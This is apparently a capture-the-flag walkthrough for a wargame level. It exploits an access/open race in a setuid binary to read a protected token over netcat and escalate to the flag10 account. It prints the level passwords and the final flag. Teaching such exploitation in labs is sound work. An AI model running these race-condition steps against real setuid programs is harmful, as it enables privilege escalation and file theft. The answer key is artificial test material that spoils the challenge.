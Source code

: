 # level10

## Vulnerability: Coding mistake leading to file impersonating

level10's password: `s5cAJpM8ev6XHw998pRWG728z`

1. examinate existing files and permissions

```bash
ls -la
```

shows that the level10 executable belongs to flag10 group, token is flag10:flag10

2. get the executable (from an external device), decompile it using [retdec](https://github.com/avast/retdec) and examine the resulting code

```bash
scp -P 4242 level10@<host>:level10 .
retdecomp level10
```

it seems like the executable reads specified file then sends it to specified host on port 6969, using an access / open flow, which is a vulnerability because we can modify the file between the access and the open

3. testing the above supposition with a sample file and netcat

```bash
echo test > /tmp/test
./level10 /tmp/test 127.0.0.1 | nc -l 6969
```

Shows that we can receive the content of specified file with netcat

4. copy both shell programs in /tmp and chmod +x them, launch both to exploit access / open vulnerability and then receive the password with netcat

```bash
vim /tmp/exploit.sh
chmod +x /tmp/exploit.sh
vim /tmp/launch.sh
chmod +x /tmp/launch.sh
/tmp/launch.sh &
(open another terminal)
/tmp/exploit.sh &
nc -klv 6969 2>/dev/null | grep -v '.*( )*.'
```

gives flag10's password: `woupa2yuojeeaaed06riuj63c`

5. pwn the flag

```bash
su flag10
woupa2yuojeeaaed06riuj63c
getflag
```

gives flag: `feulo4b72j7edeahuete3no7c`
